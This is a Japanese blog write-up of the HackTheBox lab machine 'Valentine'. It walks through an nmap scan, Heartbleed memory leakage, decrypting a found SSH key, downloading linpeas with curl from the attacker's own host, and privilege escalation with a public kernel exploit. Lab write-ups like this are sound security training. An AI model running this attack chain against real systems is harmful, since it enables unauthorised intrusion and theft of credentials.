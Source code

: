 ```yaml
---
title: 【Easy/Linux】Valentine Writeup(HackTheBox)
date: "2022-07-28"
template: "post"
draft: false
slug: "hackthebox-linux-valentine"
category: "HackTheBox"
tags:
  - "HackTheBox"
  - "Linux"
  - "EasyBox"
description: "HackTheBoxのリタイアマシン「Valentine」のWriteUpです。"
socialImage: "/media/cards/no-image.png"

---
```


「Hack The Box」という、ペネトレーションテストの学習プラットフォームを利用してセキュリティについて学んでいます。
「Hack The Box」のランクは、本記事執筆時点でProHackerです。

<img src="../../static/media/2022-07-28-hackthebox-linux-valentine/327080.png" alt="Hack The Box">

今回は、HackTheBoxのリタイアマシン「Valentine」のWriteUpです。

<!-- omit in toc -->
## 本記事について

**本記事の内容は社会秩序に反する行為を推奨することを目的としたものではございません。**

自身の所有する環境、もしくは許可された環境以外への攻撃の試行は、「不正アクセス行為の禁止等に関する法律（不正アクセス禁止法）」に違反する可能性があること、予めご留意ください。

またすべての発言は所属団体ではなく個人に帰属します。

<!-- omit in toc -->
## もくじ
- [探索](#探索)
- [内部探索](#内部探索)
- [まとめ](#まとめ)


## 探索

いつも通りファストスキャンから始めます。

``` bash
$ sudo sed -i 's/^[0-9].*targethost.htb/10.10.10.79  targethost.htb/g' /etc/hosts
$ nmap -sV -sC -T4 targethost.htb| tee nmap1.txt
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 96:4c:51:42:3c:ba:22:49:20:4d:3e:ec:90:cc:fd:0e (DSA)
|   2048 46:bf:1f:cc:92:4f:1d:a0:42:b3:d2:16:a8:58:31:33 (RSA)
|_  256 e6:2b:25:19:cb:7e:54:cb:0a:b9:ac:16:98:c6:7d:a9 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.2.22
|_ssl-date: 2022-07-28T12:23:13+00:00; 0s from scanner time.
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.22 (Ubuntu)
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25
Service Info: Host: 10.10.10.136; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

443ポートが開いているのでアクセスしてみると変な画像がでてきました。

![image-20220728212353286](../../static/media/2022-07-28-hackthebox-linux-valentine/image-20220728212353286.png)

Hertbleedの画像っぽいことがわかります。

[GitHub - mpgn/heartbleed-PoC: Hearbleed exploit to retrieve sensitive information CVE-2014-0160](https://github.com/mpgn/heartbleed-PoC)から取得したエクスプロイトコードを実行したところ、「heartbleedbelievethehype」という文字列がメモリ内から取得できましたがようとがわかりませんでした。

もう少し探索を進めるためにgobusterを回したところ、/devというパスが見つかり、中にメモと秘密鍵が埋まっていることがわかりました。

``` bash
$ gobuster dir -u http://targethost.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -t 40 | tee gobuster.txt
```

しかし、秘密鍵は`Proc-Type: 4,ENCRYPTED`の形式で、パスフレーズが設定されているようです。

ここで先ほど取得した文字列を使って秘密鍵を復号することができました。

``` bash
openssl rsa -in enc.key -out dec.key
```

ユーザ名がわからなかったので試しにrootを試してみたところ、`sign_and_send_pubkey: no mutual signature supported`のエラーがでました。

``` bash
$ ssh -i dec.ky root@10.10.10.79                                                                   
sign_and_send_pubkey: no mutual signature supported
```

これはどうやら古いバージョンのSSHが新しいSSHでサポートされていないことにより出力されているエラーのようです。

そこで、以降は古いバージョンのSSHを持つDockerコンテナを使用して進めていきます。

残念ながらrootはだめでしたが、鍵のファイル名が`hype_key`だったのでhypeを試したところ、User権限でログインができました。

## 内部探索

とりあえずlinpeasで探索を始めます。

``` bash
$ curl 10.10.14.2:5000/linpeas.sh -o linpeas.sh
$ ./linpeas.sh tee linpeas.txt
```

結果を見ていきます。

`127.0.0.1:631`が気になります。

``` bash
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports                             
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                     
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -               
tcp6       0      0 :::80                   :::*                    LISTEN      -               
tcp6       0      0 :::22                   :::*                    LISTEN      -               
tcp6       0      0 ::1:631                 :::*                    LISTEN      -               
tcp6       0      0 :::443                  :::*                    LISTEN      -
```

また、いくつか刺さりそうな脆弱性もあるようです。

``` bash
╔══════════╣ Executing Linux Exploit Suggester 2
╚ https://github.com/jondonas/linux-exploit-suggester-2
  #############################
    Linux Exploit Suggester 2
  #############################
  Local Kernel: 3.2.0
  Searching 72 exploits...
  Possible Exploits
  [1] dirty_cow
      CVE-2016-5195
      Source: http://www.exploit-db.com/exploits/40616
  [2] exploit_x
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
  [3] msr
      CVE-2013-0268
      Source: http://www.exploit-db.com/exploits/27297
  [4] perf_swevent
      CVE-2013-2094
      Source: http://www.exploit-db.com/exploits/26131
```

sudoのバージョンもかなり古そうです。

``` bash
╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version                           
Sudo version 1.8.3p1 
```

とりあえずいくつかサジェストされたエクスプロイトを試してみたところ、[Linux Kernel < 3.8.9 (x86-64) - 'perf_swevent_init' Local Privilege Escalation (2) - Linux_x86-64 local Exploit](https://www.exploit-db.com/exploits/26131)のエクスプロイトでrootを取得できました。

## まとめ

ローカルエクスプロイトが何してるかわからなかったのでいつかちゃんと読みたい。
